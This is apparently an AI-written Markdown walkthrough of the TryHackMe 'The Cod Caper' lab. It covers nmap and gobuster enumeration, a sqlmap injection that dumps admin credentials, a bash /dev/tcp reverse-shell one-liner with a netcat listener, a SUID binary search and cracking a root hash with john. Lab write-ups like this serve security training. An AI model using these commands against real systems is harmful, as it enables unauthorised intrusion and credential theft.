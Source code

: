 # 🐟 TryHackMe - The Cod Caper

## 🔎 Host Enumeration

The first step is to see what ports and services are running on the target machine.  

**Recommended Tool:** `nmap`  
**Useful Flags:** `-p -sC -A`  

To answer these questions, scan the machine with nmap and analyze the results.

```bash
nmap -A <IP> 
```
We can see two ports open:  
- 22 → ssh  
- 80 → http  

**Questions:**  
1. How many ports are open on the target machine? → `2`  
2. What is the http-title of the web server? → `Apache2 Ubuntu Default Page: It works`  
3. What version is the ssh service? → `OpenSSH 7.2p2 Ubuntu 4ubuntu2.8`  
4. What is the version of the web server? → `Apache/2.4.18`  

---

## 🌐 Web Enumeration

Since only SSH and Apache are running, let’s check the web server for possible vulnerabilities.  

**Recommended Tool:** `gobuster`  
**Useful Flags:** `-x --url --wordlist`  
**Wordlist:** `big.txt`  

If we open the IP in a browser, we see the default Apache2 Ubuntu page.  
Now let’s scan with gobuster to enumerate directories and files.

```bash
gobuster dir -u http://IP/ -w big.txt -x .php,.html,.txt
```
📌 We found an important file!  

**Question:**  
- What is the name of the important file on the server? → `administrator.php`  

---

## 💉 Web Exploitation

The admin page gives a login form. First check for low-hanging fruit like SQL Injection.  

**Recommended Tool:** `sqlmap`  
**Useful Flags:** `-u --forms --dump -a`  

On `IP/administrator.php`, we have an admin login form.  

```bash
sqlmap -u <url> --forms --dump
```
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+

We found usernames and passwords!  

**Questions:**  
1. What is the admin username?  
2. What is the admin password?  
3. How many forms of SQLi is the form vulnerable to? → `3`  

---

## ⚡ Command Execution

With the credentials from sqlmap, we log in.  

We get another form.

Let’s try to get a reverse shell with **netcat**. First, prepare a PHP shell:  

```bash
bash -c 'exec bash -i &>/dev/tcp/<ip>/<port> <&1'
```

Run netcat on attacker machine:  

```bash
nc -lvnp <port>
```
If successful, we get access to the target:  

**Questions:**  
1. How many files are in the current directory? → `3`  
2. Do I still have an account? → `yes`  
3. What is my ssh password? → Path: `/var/hidden/pass`  

---

## 🔑 LinEnum

**Question:** What is the interesting path of the interesting SUID file?  `/opt/secret/root`
There is a user called pingu in `/home`
First connect via SSH  

```bash
ssh pingu@IP
```

To list all SUID binaries:  

```bash
find / -perm -u=s -type f 2>/dev/null
```


## 🛠 pwndbg

No answer needed.

---

## 🛠 Binary Exploitation (Manually)

No answer needed.

---

## 🛠 Binary Exploitation (Pwntools)

No answer needed.

---

## 🔓 Finishing the Job

Now that we have the password hashes, we can crack them to get the root password.  

Root hash:  

```
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.
```

Usage with john:  

```bash
john [format] [wordlist] hash.txt
```
Escalation complete: You own this box.
---

## ✅ Conclusion

We exploited **The Cod Caper** using:  
- Enumeration (`nmap`, `gobuster`)  
- SQL Injection (`sqlmap`)  
- Command Execution (reverse shell)  
- Privilege Escalation (SUID, password cracking)  

🚩 Room Completed 🎉
```

---

This is **ready to paste directly into a `README.md`** file.  

Do you want me to also add a **Table of Contents** at the top (with links to each section) so it’s easier to navigate on GitHub?
